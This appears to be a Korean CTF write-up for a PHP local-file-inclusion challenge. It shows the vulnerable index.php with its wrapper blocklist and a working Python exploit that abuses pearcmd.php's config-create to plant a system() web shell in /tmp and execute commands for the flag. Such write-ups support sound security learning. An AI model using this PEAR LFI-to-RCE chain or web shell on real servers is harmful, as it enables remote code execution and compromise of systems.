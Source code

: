 {: file="Dockerfile" }

플래그는 `/flag.txt`에 존재하고 해당 docker base에는 PEAR가 포함되어있다.

```php
<?php
    ini_set("session.upload_progress.enabled", "Off");
    ini_set("file_uploads", "Off");
    ini_set('display_errors', '0');

    if(isset($_GET["file"])) {
        if (preg_match("/^(file:|http:|ftp:|zlib:|data:|glob:|phar:|zip:|expect:|php:)/i", $_GET["file"])) {
            die("HAHA... 😀");
        }
        include($_GET["file"]);
    }
?>
```

{: file="index.php" }

file파라미터 값을 검증한 후 include해준다.

`upload_progress`, `file_uploads`가 막혀있어서 이 둘을 통한 Race Condition - LFI - RCE는 불가능 해 보인다.

구글링을 통해 다음 링크를 찾았다.

[PEARfection: From LFI to RCE](https://humble-raptor-f30.notion.site/PEARfection-From-LFI-to-RCE-253bb54d20014d94bfb9c98f69a552c2)

이를 토대로 페이로드를 짤 수 있다.

```py
import http.client
import re

conn = http.client.HTTPConnection("host1.dreamhack.games", 14776)

cmd = "<?die(system($_GET['cmd']))?>"
path = f"/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd}+/tmp/sh.php"

conn.request("GET", path)
conn.getresponse().read()

conn.request("GET", '/?file=/tmp/sh.php&cmd=/readflag')
data = conn.getresponse().read().decode()
conn.close()

flag = re.findall(r'WaRP{[^}]+}', data)[0]
print(flag)
```

{: file="ex.py" }

### admin console
